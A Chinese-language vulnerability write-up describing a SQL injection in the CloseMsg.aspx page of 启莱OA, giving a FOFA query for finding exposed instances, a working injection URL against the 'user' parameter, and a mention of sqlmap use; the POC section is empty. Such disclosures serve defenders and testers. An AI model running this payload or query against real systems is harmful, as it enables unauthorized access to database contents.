 # 启莱OA-CloseMsg.aspx-SQL注入漏洞

## 漏洞描述

启莱OA CloseMsg.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> 启莱OA

## FOFA

> [!NOTE]
>
> app="启莱OA"

## 漏洞复现

登录页面如下

![](D:\知识星球\image\ql-1-1621166871878.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

存在SQL注入的文件为 CloseMsg.aspx 

```
http://xxx.xxx.xxx.xxx/client/CloseMsg.aspx?user=' and (select db_name())>0--&pwd=1
```



![](启莱OA-CloseMsg.aspx-SQL注入漏洞.assets/16273635442157729.jpg)

使用SQLmap对参数 user 进行注入

![](启莱OA-CloseMsg.aspx-SQL注入漏洞.assets/1627363544498425.jpg)

## Goby & POC

